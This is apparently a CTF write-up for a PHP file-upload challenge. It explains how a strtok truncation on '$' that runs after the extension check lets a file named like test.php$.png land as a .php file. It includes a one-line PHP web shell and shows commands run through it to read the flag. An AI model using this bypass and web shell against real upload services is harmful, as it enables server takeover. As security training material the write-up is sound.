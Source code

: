 # PHP Sucks
## Description
> I hate PHP, and I know you hate PHP too. So, to irritate you, here is your PHP webapp. Go play with it <br>
> Created by: ```j4ck4l```

![image](https://github.com/user-attachments/assets/2d030b7c-81ca-401e-9c07-eac84300960f)

Cleaning up the given php code to look better: -
```php
<?php
$allowedExtensions=['jpg','jpeg','png'];
$errorMsg='';
if($_SERVER['REQUEST_METHOD']==='POST'&&isset($_FILES['file'])&&isset($_POST['name'])){
	$userName=$_POST['name'];
	$uploadDir='uploaded/'.generateHashedDirectory($userName).'/';
if(!is_dir($uploadDir)){
	mkdir($uploadDir,0750,true);
}
$uploadedFile=$_FILES['file'];
$fileName=$uploadedFile['name'];
$fileTmpName=$uploadedFile['tmp_name'];
$fileError=$uploadedFile['error'];
$fileSize=$uploadedFile['size'];
$fileExt=strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
if(in_array($fileExt,$allowedExtensions)&&$fileSize<200000){
	$fileName=urldecode($fileName);
	$fileInfo=finfo_open(FILEINFO_MIME_TYPE);
	$fileMimeType=finfo_file($fileInfo,$fileTmpName);
	finfo_close($fileInfo);
	$allowedMimeTypes=['image/jpeg','image/jpg','image/png'];
	$fileName=strtok($fileName,chr(7841151584512418084));
	if(in_array($fileMimeType,$allowedMimeTypes)){
		if($fileError===UPLOAD_ERR_OK){
			if(move_uploaded_file($fileTmpName,$uploadDir.$fileName)){
				chmod($uploadDir.$fileName,0440);
				echo"File uploaded successfully. <a href='$uploadDir$fileName' target='_blank'>Open File</a>";
			}else{
			$errorMsg="Error moving the uploaded file.";
			}
		}
		else{
			$errorMsg="File upload failed with error code: $fileError";
			}
	}else{
		$errorMsg="Don't try to fool me, this is not a png file";
}
}else{
	$errorMsg="File size should be less than 200KB, and only png, jpeg, and jpg are allowed";
}}
function generateHashedDirectory($userName){$randomSalt=bin2hex(random_bytes(16));
	$hashedDirectory=hash('sha256',$userName.$randomSalt);
	return $hashedDirectory;
}?>
```

`$fileName=strtok($fileName,chr(7841151584512418084));` -> This stuck out, since it is acting as a null byte i.e. read everything till this `chr(7841151584512418084)` which is a `$` when we actually check it in a php interpreter.

Below is the order of checks: -

1. Extension check using pathinfo().
2. MIME type check using magic bytes. So we should upload a file that has magic bytes that can get past this check (jpg,png).
3. If all checks pass, move the uploaded file into a new directory.

Our end goal is to get a file ending with .php in this directory, but uploading it directly will fail because of the checks.

This is where `$` comes in play, if `test.php$.png` is the file name, it will pass the first check.
```
php > echo pathinfo("test.php$.jpg",PATHINFO_EXTENSION);
jpg
```

The strtok before the 2nd check will get the filename upto the `$`.
```
php > echo strtok("test.php$.jpg",chr(7841151584512418084));
test.php
```

Since the file being uploaded is an actual png, we can either edit any bytes except the magic bytes to include our payload, something like `<?php system($_GET["0"]) ?>`.

Or we can also add our payload as exifdata, or just keep the magic bytes and our payload, anything will work.

Using the above filename and payload, we get a shell.
```
GET /uploaded/xxx/test.php?0=ls+-la+../../
total 3496
drwxr-x--- 1 root     ctf-player    4096 Dec 16 10:49 .
drwxrwxrwx 1 www-data www-data      4096 Dec 17 21:29 ..
-rwxr-x--- 1 root     ctf-player      69 Dec 16 10:36 s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
-rwxr-x--- 1 root     ctf-player    3939 Dec 16 10:36 upload.php
drwxrwxrwx 1 root     ctf-player 3551232 Dec 19 04:26 uploaded

GET /uploaded/xxx/test.php?0=cat+../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```

## FLag

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`
